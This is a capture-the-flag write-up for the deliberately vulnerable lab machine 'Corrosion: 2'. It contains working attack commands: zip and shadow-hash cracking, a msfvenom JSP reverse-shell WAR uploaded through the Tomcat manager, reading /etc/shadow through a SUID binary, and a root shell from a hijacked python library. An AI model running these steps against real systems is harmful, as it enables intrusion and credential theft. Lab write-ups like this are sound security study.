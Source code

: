 # Corrosion: 2

### Nmap Scan

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCxEaMV/cOFTyD2I2ITIKwQ4b/bNPssxteT2yDAFcUeWUEMen6sr0RS9Wa7pk0ywsbDR/nTrbvSXCVumjaF2UG1nf5d0iu7RgSOWmtWNllMCmH8fUqBXoSVTsR6

80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET

8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.53
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.53
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

---

### First look of website.

![Website First look](./img/website.png)

### Hidden Directory

```bash
## Most IMP 
/backup.zip -> password protected 

/docs
/examples
/manager 
```

- Download the zip file from `/backup.zip`
- The zip file is password protected.

---

### Crack backup.zip Password

```bash
fcrackzip -u backup.zip -D -p /usr/share/wordlists/rockyou.txt -v
```

- Successfully crack the password.
    
    > **Cracked Password** = @administrator_hi5
    > 

---

### Inside website

- After unzip the backup file we get credentials from → `tomcat-users.xml`
- `/manager` is a directory appears to be interesting.

> **username = admin**
> 

> **password = melehifokivai**
> 
- It looks like we can upload the .war file to get a reverse-shell.

![Screenshot_2025-07-27_20-12-02.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/Screenshot_2025-07-27_20-12-02.png)

---

# Multiple Methods to get a **reverse-shell**

1. Use msfvenom to get a revershell 
- Upload this `rev.war` file
- Go to → http://IP:8080/rev/

![termial.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/termial.png)

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_IP> LPORT=1337 -f war -o rev.war
```

---

1. Use Metasploit → `multi/http/tomcat_mgr_upload`

```bash
set RHOST
set RPORT
## Optional  
set HttpPassword melehifokivai 
## Optional  
set HttpUsername admin  
```

---

### SSH Login

- we have 3 users
- we can check if any password is reuse.
- and it work `jaye` has a reuse password.

```
jaye:melehifokivai
randy
tomcat 
```

![ssh.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/ssh.png)

---

### Privilege Escalation

- we can use `linpeas` also
- But first we try manual testing
- This is use for search for all files on the system that have the SUID (Set User ID) permission set.

```bash
## search for all files on the system that have the SUID (Set User ID) permission set.
find / -perm -4000 2>/dev/null 
```

- After running this command we see something unusual.

![pri.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/pri.png)

- `/home/jaye/Files/look` → Try GTFOBins

![Screenshot_2025-07-27_20-32-52.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/Screenshot_2025-07-27_20-32-52.png)

- Payload

```bash
## File Read
LFILE=/etc/shadow
./look '' $LFILE
```

![randy.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/randy.png)

- username & password  → /etc/shadow

```bash
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
```

- Save this file and use john to crack there passwords.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

> **Cracked Password = 07051986randy**
> 
> 
> **Username = randy**
> 

---

### Login As randy

```bash
ssh randy@IP
```

![esc.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/b38dd374-8344-4f67-8ca9-37996a1f96c9.png)

- user → randy can run python script with privileges.

![sudo.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/e43e3989-dbe9-41c3-b4ec-c417afa401dc.png)

- we can edit the python script and inject a cmd to spawn a root shell.
    - edit `/usr/lib/python3.8/base64.py`

![payload.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/8bba9cbc-f1f4-4868-a150-b9bd750ce17c.png)

```python
import os

os.system("/bin/bash")
```

- save this
- when we run `randombase64.py` python script, which triggers our `base64.py` and give us a root shell.

![actual-root.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/bdbf36ce-358d-4595-8414-e6aaf2b36e10.png)

```bash
sudo /usr/bin/python3.8 /home/randy/randombase64.py 
```